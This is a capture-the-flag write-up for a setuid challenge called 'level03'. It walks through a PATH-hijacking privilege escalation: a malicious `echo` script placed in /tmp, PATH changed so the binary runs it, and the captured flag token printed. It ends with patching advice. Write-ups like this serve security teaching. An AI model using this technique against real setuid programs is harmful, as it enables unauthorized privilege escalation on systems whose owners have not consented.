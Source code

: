 ## level03

- **How we found it**  

	1. Noticed `level03` is setuid:

		```bash
		ls -l ./level03
		# -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
		```

	2. Traced its child with `strace`:

		```bash
		strace ./level03 2>&1 | grep execve
		# execve("/usr/bin/echo", ["echo","Exploit","me"], …)
		```

     It repeatedly searches for `echo` via your `PATH`.

- **How we exploited it**

	1. Create a malicious `echo` wrapper in `/tmp`:

		```bash
		cat > /tmp/echo << 'EOF'
		#!/bin/sh
		getflag
		EOF

		chmod +x /tmp/echo
		```

	2. Prepend `/tmp` to `PATH` so the setuid binary picks up your wrapper:

		```bash
		export PATH=/tmp:$PATH
		```  
  
	3. Run the vulnerable binary:

		```bash
		./level03
		# Check flag. Here is your token: qi0maab88jeaj46qoumi7maus
		```

- **Utility of this exercise**  

	Shows how untrusted `PATH` resolution in setuid programs can be hijacked to escalate privileges.

- **How to patch**  

	- Invoke external commands with absolute paths (e.g. `/bin/echo`) instead of relying on `PATH`.  

	- In setuid programs, clear or sanitize the `PATH` environment variable before any exec calls.  

	- Remove the setuid bit if it’s not strictly necessary.
